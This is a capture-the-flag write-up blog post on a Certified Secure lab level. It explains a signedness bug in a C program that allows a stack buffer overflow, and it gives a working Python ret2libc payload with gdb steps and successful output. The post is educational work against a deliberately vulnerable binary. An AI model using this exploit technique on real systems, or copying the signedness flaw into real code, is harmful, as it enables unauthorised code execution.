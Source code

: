 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 2"
---
```


![Logo](/assets/images/belts-purple.png)


In this post we'll continue with the second level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
Another buffer overflow, similar mitigatiopn techniques as we've seen in the previous level (non-executable stack), 
but this time we have another flaw, a little more subtle: _integer signedness error_.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8267
level2@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

0 packages can be updated.
0 updates are security updates.

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                    __  ___          __              
  / _ )(_)___ ___ _______ __/  |/  /___ ____ / /____ ______ __
 / _  / // _ | _ `/ __/ // / /|_/ // _ `(_-</ __/ -_) __/ // /
/____/_//_//_|_,_/_/  \_, /_/  /_/ \_,_/___/\__/\__/_/  \_, / 
                     /___/                             /___/  

             ___           __                   __ 
            / (_)___ __ __/ /____ ___ ___ ____ / /_
           / / // -_) // / __/ -_) _ | _ `/ _ | __/
          /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/ 
                                                   

```

Let's see what mitigation techniques we have now using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level2
```

There is no stack canary and the stack is **not** executable. As we've seen in the previous level, [ASLR is disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) system-wise for this set of challenges.

## 1 - Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void head(int len, char *filename) {
	char buf[256];
	
	if (len > 255) {                         [1]
		printf("You are insane!\n");
		return;
	}

	int fp = open(filename, O_RDONLY);

	if (fp == 0) {                           [2]
		printf("Computer says no\n");
		return;
	}

	buf[read(fp, buf, len)] = 0;	         [3]
	close(fp);

	printf("%s\n", buf);
}

int main(int argc, char **argv) {
	if (argc < 2) {
		printf("Usage: %s <size>\n", argv[0]);
		return -1;
	}

	head(atoi(argv[1]), argv[2]);
	
	return 0;
}
```

First let's understand what is the purpose of this program and how it works. In this case it's pretty straight forward:
* Its first parameter represents a number of lines to be read from the filename specified in the second command line parameter.
* A first sanity check is implemented at **[1]**: if the length is greater than 255 bytes, the program will terminate.
* A second check at **[2]** after the _open_ call probably intends to terminate the program if file cannot be opened successfully.
* Finally,the _read_ call at **[3]** copies maximum _len_ characters into the buffer _buf_, whose size is 256 bytes, thus avoiding the overflow.

Now let's see if we can break it:
* Let's notice that the check at **[2]** is actually not effective because, according to its [man page](http://man7.org/linux/man-pages/man2/open.2.html), _open_ will return -1 in case of error, not 0. This means that the program will have unpredictable output for non-existent files.
* The check at **[1]** poses, however, a more serious risk: as we can see from the definition of the function, _len_ is actually a signed integer. But [read](https://linux.die.net/man/3/read) expects instead a **size_t** parameter. This means that passing any negative value will successfulyl bypass the check, overflow the buffer and everything beyond, including the return address from function _head_.

Although one might expect that a GCC compiler error would be generated in situations like this, it is not actually the case. Moreover, even eanbling _all warnings_ and _extra warnings_ doesn't produce any relevant message. These flags are actually misleading, since it is not possible (nor desirable!) to show _ALL_ compilation errors supported by GCC. See [here](https://stackoverflow.com/questions/11714827/how-to-turn-on-literally-all-of-gccs-warnings) why. That's why I was saying it is slighly more difficult to spot this class of vulnerabilities in practice. 

```bash
$ gcc -m32 -fstack-protector level2.c -o level2       
$ gcc -Wall -Wextra -m32 -fstack-protector level2.c -o level2
$ 
```

The only way to get a warning for this kind of behaviour is to manually enable implicit sign conversions erros, using the **-Wsign-conversion** flag.

```
-Wsign-conversion
    Warn for implicit conversions that may change the sign of an integer value, like assigning a signed integer expression to an unsigned integer variable. An explicit cast silences the warning. In C, this option is enabled also by -Wconversion. 
```

```bash
$ gcc -Wsign-conversion -m32 -fstack-protector level2.c -o level2
level2.c: In function ‘head’:
level2.c:24:20: warning: conversion to ‘size_t {aka unsigned int}’ from ‘int’ may change the sign of the result [-Wsign-conversion]
  buf[read(fp, buf, len)] = 0; 
                    ^
```		    

## 2 - Exploit 

Given the previous finding, the exploitation is simple and very similar with [level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html). First we'll see what we need to control the EIP and then we'll introduce a payload as well.

### Controlling the execution flow
Although we know that **buf** is 256 bytes in size, we need to see the stack layout of the function **head** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![head stack](/assets/images/bm7-0.png)

So we need 256 + 12 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*272 + "BBBB"' > input
$ gdb -q ./level2

gdb-peda$ run -1 input
```
We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm7-1.png)

### Add ret2libc payload
In a very similar way with the previous level, we'll return from _head_ function to the _system_ function, and place its argument in an environment variable. All the unchanged details omitted for space. The format of our payload is:

```
| PADDING (272 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

The python script below generates the payload according to this scheme:

```python
import struct                                                                                                      
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffd928-6      # Address of environment variable (/home/level2/victory)

payload = "A" * (256 + 12 + 4) + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ python /tmp/gen.py > /tmp/input
$ /levels/level2 -1 /tmp/input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp^�P��"��
   ___  _                      __  ___         __  
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   

Subject: Victory!

Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level3. If you want, you can log in
as level3 with password     [REDACTED]
```

That's it for now. It the [next level](https://livz.github.io/2016/03/02/binary-master-lieutenant-3.html) we'll look at a new calss of issues - _command injection vulnerabilities_.
